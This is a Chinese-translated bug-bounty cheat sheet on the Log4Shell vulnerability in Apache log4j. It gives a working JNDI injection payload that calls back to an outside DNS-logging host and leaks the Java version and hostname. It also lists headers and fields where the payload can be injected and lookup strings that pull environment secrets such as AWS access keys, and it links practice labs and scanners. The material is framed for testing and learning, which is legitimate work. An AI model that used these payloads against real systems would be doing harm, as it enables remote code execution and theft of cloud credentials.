 # Log4j 漏洞说明书

> 原文：<https://infosecwriteups.com/log4j-vulnerability-cheatsheet-66b7aeabc607?source=collection_archive---------2----------------------->

它是如何工作的，在哪里练习，以及如何识别

![](img/ad6275cc2dd405294c9b3bdf76d43103.png)

Bug 赏金提示::Log4j 漏洞备忘单

# 描述

如果记录用户控制的字符串，Java 日志库 log4j 存在未经验证的 RCE 漏洞。CVE-2021–44228(日志 4 外壳)

受影响的版本— Apache log4j 2.0-beta9 ≤ 2.14.1

# 它是如何工作的

特制的有效负载被注入到标头、输入字段或查询/正文参数中

```
[https://target.com/?test=${jndi:ldap://jv-${sys:java.version}-hn-${hostName}.qwe3er.dnslog.cn/exp}](https://target.com/?test=${jndi:ldap://jv-${sys:java.version}-hn-${hostName}.qwe3er.dnslog.cn/exp})
```

1.您可以使用服务`dnslog.cn`为测试创建您的 DNS 子域。示例:`qwe3er.dnslog.cn`

2.使用这个子域创建一个有效负载，并随请求一起发送。一段时间后检查对 DNS 服务的请求，以确认成功回拨

3.您应该会收到一个类似的 DNS 服务请求(主机和 Java 版本):`jv-11.0.13-hn-73a957d15746.qwe3er.dnslog.cn`

# 测试环境

您可以使用提供的测试环境来检查此漏洞的行为

[](https://github.com/leonjza/log4jpwn) [## GitHub-Leon jza/log 4 jpwn:log4j rce 测试环境和 poc

### log4j rce 测试环境参见:https://www.lunasec.io/docs/blog/log4j-zero-day/使用包含的 python poc

github.com](https://github.com/leonjza/log4jpwn) [](https://github.com/christophetd/log4shell-vulnerable-app) [## GitHub-Christophe TD/log 4 shell-vulnerable-app:Spring Boot web 应用程序易受…

### 此存储库包含易受 CVE 攻击的 Spring Boot web 应用程序-2021-44228，昵称为 Log4Shell。它使用 Log4j…

github.com](https://github.com/christophetd/log4shell-vulnerable-app) 

# 挑战和实验室(房间)

您可以使用创建的挑战、实验室(房间)来练习此漏洞

[](https://pentesterlab.com/exercises/log4j_rce/course) [## Log4j RCE

### 这个挑战涵盖了 Log4j 中最新的 RCE

pentesterlab.com](https://pentesterlab.com/exercises/log4j_rce/course) [](https://tryhackme.com/room/solar) [## TryHackMe | Solar，利用 log4j

### 探索 CVE-2021-44228，log4j 中的一个漏洞，它几乎影响了世界上所有的软件。

tryhackme.com](https://tryhackme.com/room/solar) 

# 如何识别(服务)

您可以使用这些网站来为您的有效负载创建 DNS 地址(令牌)

[https://canarytokens.org](https://canarytokens.org)(使用令牌类型:Log4Shell)

[https://dnslog.cn](https://dnslog.cn)

[https://app.interactsh.com](https://app.interactsh.com)

# 如何识别(扫描仪)

您可以使用这些扫描器来检查目标网站是否易受攻击

[](https://github.com/fullhunt/log4j-scan) [## GitHub - fullhunt/log4j-scan:一个全自动、精确和广泛的扫描器，用于查找 log4j…

### 一个全自动，准确，广泛的扫描程序，用于查找易受攻击的 log4j 主机，支持 URL 列表…

github.com](https://github.com/fullhunt/log4j-scan) [](https://github.com/adilsoybali/Log4j-RCE-Scanner) [## GitHub-adilsoybali/Log4j-RCE-Scanner:Log4j 的远程命令执行漏洞扫描程序。

### 使用此工具，您可以在多个位置扫描 Apache Log4j 上的远程命令执行漏洞 CVE-2021-44228

github.com](https://github.com/adilsoybali/Log4j-RCE-Scanner) 

# 可以注入有效载荷的位置列表

电子邮件标题、用户名、密码、电子邮件地址、文件名、查询/正文、文件内容、文档/图像 EXIF 或这些标题中的任何一个:

```
Authorization
Cache-Control
Cf-Connecting_ip
Client-Ip
Contact
Cookie
Forwarded-For-Ip
Forwarded-For
Forwarded
If-Modified-Since
Originating-Ip
Referer
True-Client-Ip
User-Agent
X-Api-Version
X-Client-Ip
X-Forwarded-For
X-Leakix
X-Originating-Ip
X-Real-Ip
X-Remote-Addr
X-Remote-Ip
X-Wap-Profile
Authorization: Basic
Authorization: Bearer
Authorization: Oauth
Authorization: Token
```

# 可以提取什么信息

```
${hostName}
${sys:user.name}
${sys:user.home}
${sys:user.dir}
${sys:java.home}
${sys:java.vendor}
${sys:java.version}
${sys:java.vendor.url}
${sys:java.vm.version}
${sys:java.vm.vendor}
${sys:java.vm.name}
${sys:os.name}
${sys:os.arch}
${sys:os.version}
${env:JAVA_VERSION}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_SHARED_CREDENTIALS_FILE}
${env:AWS_WEB_IDENTITY_TOKEN_FILE}
${env:AWS_PROFILE}
${env:AWS_CONFIG_FILE}
${env:AWS_ACCESS_KEY_ID}
```

*继续阅读……*

🔗[如何找到你的第一个 Bug:Bug 赏金的动机和技巧](https://therceman.medium.com/how-to-find-your-first-bug-motivation-and-tips-for-bug-bounty-hunting-5e7343066d0c)
🔗[$ 350 XSS 15 分钟](https://medium.com/bugbountywriteup/350-xss-in-15-minutes-dcb74ad93d5f)
🔗[如何开始 Bug 赏金狩猎](https://therceman.medium.com/how-to-start-bug-bounty-hunting-94b1ff3dda27)

P.S .如果你有任何问题或需要进一步的指导，请随时加入我的 Discord 服务器。你可以联系我和其他有经验的虫子赏金猎人，他们总是愿意帮忙。

🔗[therceman.dev/discord](https://therceman.dev/discord)

分享臭虫奖励提示

🔸[LinkedIn.com/in/therceman](https://linkedin.com/in/therceman)

🔸[Twitter.com/therceman](https://twitter.com/therceman)

🔸[Telegram.me/therceman](https://telegram.me/therceman)

🔸[TikTok.com/@therceman](https://tiktok.com/@therceman)

🔸[YouTube.com/therceman](https://youtube.com/therceman)

最诚挚的问候，安东